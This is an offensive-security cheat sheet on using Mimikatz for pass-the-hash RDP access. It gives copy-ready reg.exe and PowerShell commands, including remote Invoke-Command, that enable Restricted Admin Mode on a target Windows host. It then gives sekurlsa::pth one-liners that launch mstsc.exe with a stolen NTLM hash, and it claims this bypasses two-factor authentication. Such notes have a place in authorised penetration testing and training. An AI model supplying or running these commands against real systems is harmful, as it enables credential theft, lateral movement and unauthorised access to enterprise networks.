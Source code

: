 # Mimikatz

Search Tag(s): #post-exploitation #lateral-movement #offensive-tools #windows

## 01 - Enable Restricted Admin Mode

> [!IMPORTANT] Conditions
> Enable restricted admin mode.
>> [!INFO]
>> This is will bypass 2FA (two factor authentication) if it was configured in enterprise networks. It allows RDP authentication with Pass The Hash methods.

### 1.1 - Command Prompt

```
C:\> reg.exe add [\\<IP>\]HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```

### 1.2 - PowerShell

```
PS C:\> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0 -PropertyType DWORD -Force

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0 -PropertyType DWORD -Force }
```

## 02 - Run RDP Remote Session 

After passing the hash. Create a new process to authenticate RDP. This is much easier to do.

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<nt_hash>

mimikatz # process::start "mstsc.exe /v:<IP> /restrictedadmin"
```

You can do this in one-liner.

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<nt_hash> /run:"mstsc.exe /v:<IP> /restrictedadmin"
```

---
## References

- [ederml's Blog: Passing the hash with native RDP client (mstsc.exe)](https://edermi.github.io/post/2018/native_rdp_pass_the_hash/)